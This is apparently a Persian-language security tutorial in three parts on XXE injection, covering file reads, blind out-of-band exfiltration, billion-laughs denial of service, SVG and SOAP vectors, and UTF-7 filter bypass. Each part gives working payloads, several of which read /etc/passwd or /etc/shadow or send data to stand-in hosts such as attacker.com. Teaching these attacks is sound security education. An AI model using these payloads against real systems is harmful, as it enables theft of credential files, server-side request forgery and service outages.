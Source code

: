 📌 حملات XXE (تزریق XML) - بخش اول  

🔹حمله XXE چیست؟  
حملۀ XXE (XML External Entity Injection) یک آسیب‌پذیری امنیتی در پردازش داده‌های XML است که به مهاجم اجازه می‌دهد به فایل‌های سیستم سرور دسترسی پیدا کند یا با سیستم‌های backend تعامل داشته باشد. در برخی موارد، این آسیب‌پذیری می‌تواند منجر به حمله‌های جعل درخواست سمت سرور (SSRF) یا حتی اختلال در سرویس (DoS) شود.  

🔹 انواع حملات XXE   
1. استخراج فایل‌ها (مثلاً خواندن /etc/passwd)  
2. حملات SSRF (ارسال درخواست به سیستم‌های داخلی)  
3. انتقال داده‌ها به صورت خارج از باند (OOB)  
4. استخراج داده از طریق پیام‌های خطا  

🔹 مثال ساده از XXE:  
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
در این مثال، مهاجم محتوای فایل /etc/passwd را می‌خواند.  

📌 حملات XXE (تزریق XML) - بخش دوم  

🔹 حملات پیشرفته XXE  

 1. حملات Blind XXE (انتقال داده به صورت خارج از باند)  
در برخی موارد، برنامه پاسخ مستقیمی نشان نمی‌دهد، اما مهاجم می‌تواند داده‌ها را به یک سرور تحت کنترل خود منتقل کند.  

مثال:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY blind SYSTEM "http://attacker.com/?%xxe;">
]>
<foo>&blind;</foo>
در این حالت، محتوای /etc/passwd به سرور مهاجم ارسال می‌شود.  

2. دور زدن کنترل‌های دسترسی (PHP Example)  
با استفاده از فیلترهای PHP، می‌توان فایل‌های محدودشده را خواند:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/shadow">
]>
<foo>&ac;</foo>
(در این مثال، فایل /etc/shadow به صورت base64 کدگذاری و خوانده می‌شود.)  

 3. حملات DoS با XXE 
بعضی از payloadهای XXE می‌توانند باعث مصرف بیش از حد منابع سرور شوند:  
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  ...
]>
<lolz>&lol9;</lolz>
این حمله باعث ایجاد حجم زیادی از داده‌های تکراری و crash سرور می‌شود.  

📌 حملات XXE (تزریق XML) - بخش سوم  

🔹 حملات پیشرفته XXE (ادامه)  

4. استفاده از XXE در فایل‌های SVG (حملات از طریق تصاویر)  
فایل‌های SVG مبتنی بر XML هستند و می‌توانند حاوی payloadهای XXE باشند:  
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" height="200">
    <image xlink:href="expect://id"></image>
</svg>
اگر سایتی آپلود SVG را بدون فیلتر کردن اجازه دهد، این payload می‌تواند دستورات سیستم را اجرا کند.  

5. استفاده از XXE در پروتکل SOAP (سرویس‌های وب)  
در APIهای SOAP-based نیز می‌توان از XXE سوءاستفاده کرد:  
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://attacker.com/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
این payload درخواستی به سرور مهاجم ارسال می‌کند.  

6. استفاده از کدگذاری UTF-7 برای دور زدن فیلترها  
بعضی سیستم‌ها فقط UTF-8 را پردازش می‌کنند، اما با UTF-7 می‌توان برخی فیلترها را دور زد:  
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hacker.com/+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4

🔹 جمع‌بندی بخش سوم  
- درون SVGها می‌توانند حاوی XXE باشند.  
-حتی APIهای SOAP نیز در معرض خطرند.  
- با تغییر کدگذاری (مثل UTF-7) می‌توان برخی فیلترها را دور زد.  

ادامه در بخش چهارم (پیشگیری و دفاع)...

✍️نویسنده 
@TryHackBox | The Chaos

